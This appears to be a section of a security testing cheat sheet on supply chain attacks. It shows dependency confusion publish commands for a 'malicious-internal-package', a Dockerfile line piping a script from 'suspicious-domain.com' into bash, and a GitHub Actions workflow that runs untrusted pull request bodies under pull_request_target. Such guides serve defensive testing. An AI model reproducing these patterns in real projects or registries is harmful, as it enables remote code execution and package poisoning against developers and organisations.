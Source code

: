 ### **🆕 Supply Chain Attack Vectors**

#### **Dependency Confusion**:
```bash
# Test for dependency confusion
# Upload malicious packages with same names but higher versions
npm publish malicious-internal-package@999.0.0
pip upload malicious-internal-package==999.0.0
gem push malicious-internal-package-999.0.0.gem

# Check for internal package names in public registries
npm view internal-company-package
pip show internal-company-package
```

#### **Container Image Supply Chain**:
```dockerfile
# Test for vulnerable base images
FROM node:16-alpine  # Check for known vulnerabilities

# Test for malicious layers
RUN curl -sSL https://suspicious-domain.com/install.sh | bash

# Check for secrets in layers
COPY .env /app/.env  # Should not copy secrets
```

```bash
# Container image security testing
docker history --no-trunc image:tag
docker inspect image:tag | grep -i env
dive image:tag  # Analyze layer contents

# Test for known vulnerabilities
trivy image image:tag
clair-scanner --ip="$(docker network inspect bridge --format='{{(index .IPAM.Config 0).Gateway}}')" image:tag
```

#### **Build System Compromise**:
```yaml
# GitHub Actions supply chain attack vectors
name: Malicious Workflow
on:
  pull_request_target:  # Dangerous trigger
    branches: [main]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v2
      with:
        ref: ${{ github.event.pull_request.head.sha }}
    
    - name: Dangerous script execution
      run: |
        # Execute untrusted code from PR
        ${{ github.event.pull_request.body }}
```
